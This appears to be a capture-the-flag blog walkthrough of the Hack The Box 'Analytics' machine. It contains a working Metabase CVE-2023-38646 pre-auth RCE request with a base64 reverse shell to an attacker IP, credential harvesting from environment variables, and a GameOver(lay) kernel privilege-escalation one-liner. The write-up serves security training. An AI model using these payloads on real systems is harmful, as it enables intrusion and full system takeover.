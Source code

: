 ```yaml
---
title: "Analytics [Easy]"
date: 2024-07-23 02:09:44 +0530
categories:
  - Hackthebox
tags:
  - Metabase
  - CVE-2023-38646
  - RCE
  - kernel Privesc
image: "/assets/img/Analytics.png"
---
```


# Analytics Walkthrough - Easy

## Reconnaissance

An initial Nmap scan revealed only 2 open ports:

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This revealed SSH running on port 22 and an nginx web server on port 80. Both telling us it's a server running Ubuntu.

The next step was to further enumerate the web application, but first, I added the IP address to /etc/hosts:

```bash
echo "10.10.14.233 analytical.htb" | sudo tee -a /etc/hosts
```

## Initial Foothold

### Exploring the Web Application

Browsing to _http://analytical.htb_ brought up a simple login page. Intercepting requests with Burp revealed a redirect to _http://data.analytical.htb_, so I added that subdomain to /etc/hosts.

Visiting _http://data.analytical.htb_ displayed a login page for Metabase, an open source business intelligence tool. Default credentials did not work on the login. 

[![img](/assets/img/login1.png)
](https://github.com/0xManan/0xManan.github.io/blob/main/assets/img/login1.png?raw=true)

After some research, I discovered Metabase has a recently disclosed pre-authentication RCE vulnerability [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). This bug in Metabase, involved a retained 'setup-token' post-installation, accessible to unauthenticated users. This flaw, resulting from a codebase refactoring oversight, allowed exploitation via SQL injection in the H2 database driver during the Metabase setup phase. The exploit enabled pre-authentication Remote Code Execution (RCE) by manipulating database connection validation steps.

The next step was finding a Proof of Concept exploit for this vulnerability to gain initial access. The search was not long, as there was a very nice writeup with PoC by AssetNote on their [blog page](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

The following payload can be used to obtain a reverse shell on the system:

```console
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=4f9146b3-7b53-471e-9f10-4232d6856b1d
If-Modified-Since: Fri, 13 Oct 2023 06:45:20 GMT
Connection: close
Content-Length: 822

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

The value of YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg decoded is bash -i >&/dev/tcp/10.10.14.36/5555 0>&1. You must encode this with your own IP and port, and then modify the payload above before sending it. For some reason it won't work if there are any "=" signs in the base64 payload, so make sure you don't have them. You can add spaces in the end of the payload before base64 encoding it, to adjust the padding.

[![img](/assets/img/burp1.png)
](https://github.com/0xManan/0xManan.github.io/blob/main/assets/img/burp1.png?raw=true)

This exploit allowed me to gain a reverse shell from the underlying system, but there was no user flag in there, so I started exploring what's around...

### Finding Credentials

I checked /proc/self/environ for any environment variables:

> 76574c6ca049:~$ cat /proc/self/environ

```bash
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=
LANGUAGE=en_US:en  
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8  
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/cat
OLDPWD=/home/metabase/.ssh
```

This revealed credentials:

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

I tried to SSH into the server with those and:

```bash
ssh metalytics@analytical.htb
```

i was in and could read the flag:

```bash
Last login: Wed Nov 15 01:55:43 2023 from 10.10.14.36
metalytics@analytics:~$ cat user.txt
dc3b************************c327
```

## Privilege Escalation to Root

After gaining initial access to the Analytical server as the metalytics user, I began searching for ways to escalate privileges and obtain access to the root user account.

sudo -l didn't work

```bash
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Tried uname -a command.

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

From top of my head I could remember that there was an Ubuntu kernel related privesc vulnerability discovered very recently, so I simply decided to try it out. [New Container Exploit: Rooting Non-Root Containers with CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

It is so simple, that fits in one line: 

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

So, let's try it:

```bash
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ ls -la /root
ls: cannot open directory '/root': Permission denied
metalytics@analytics:~$
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:~# ls -la /root
total 48
drwx------  6 root root 4096 Aug 25 15:14 .
drwxr-xr-x 18 root root 4096 Aug  8 11:37 ..
lrwxrwxrwx  1 root root    9 Apr 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27  2023 .cache
drwxr-xr-x  3 root root 4096 Apr 27  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 Aug 25 15:14 .scripts
-rw-r--r--  1 root root   66 Aug 25 15:14 .selected_editor
drwx------  2 root root 4096 Apr 27  2023 .ssh
-rw-r--r--  1 root root   39 Aug  8 11:30 .vimrc
-rw-r--r--  1 root root  165 Aug  8 11:53 .wget-hsts
-rw-r-----  1 root root   33 Nov 15 00:54 root.txt
root@analytics:~# cat /root/root.txt
fe46************************afd0
root@analytics:~#
```
## Conclusion

The key steps were thorough reconnaissance, pinpointing a logical exploit chain, adapting public PoCs, and continuous enumeration for additional attack surface. Combining patience, research, and technical skills allowed me to achieve the goal.
